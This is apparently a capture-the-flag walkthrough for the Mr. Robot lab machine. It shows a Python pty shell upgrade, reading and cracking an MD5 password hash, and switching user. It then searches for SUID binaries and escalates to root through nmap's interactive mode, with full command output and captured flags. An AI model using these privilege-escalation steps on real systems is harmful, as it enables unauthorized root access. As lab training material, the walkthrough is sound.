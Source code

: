 1) Upgrade shell with python: 
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
2) In the /home/robot directory you will find the password in the form of an md5 hash
```
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
3) On the Crackstation site it is easy to find a match: ```
```
abcdefghijklmnopqrstuvwxyz
```
4) Then type: `su robot`    
5) Once you have entered the password and log into the robot account, you will find the second key:
```
daemon@linux:/home/robot$ su robot 
su robot 
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ whoami
whoami
robot
robot@linux:~$ ls
ls
key-2-of-3.txt  password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959   <------- Seconda Chiave
robot@linux:~$  
```
6) We are looking for binaries that we can run as sudo: 
```
robot@linux:/bin$  find / -perm +6000 2>/dev/null | grep "/bin/"
 find / -perm +6000 2>/dev/null | grep "/bin/"
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/mail-touchlock
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/chfn
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/expiry
/usr/bin/dotlockfile
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/wall
/usr/local/bin/nmap
robot@linux:/bin$ 
```
7) Call nmap's interactive shell:  `nmap --interactive`
8) And then in the interactive shell you type: `!sh`
9) We access the directory and output the third key:
```
robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap>  !sh
 !sh
# whoami
whoami
root
# cd root
cd root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4      <---- Terza Flag
# 
```



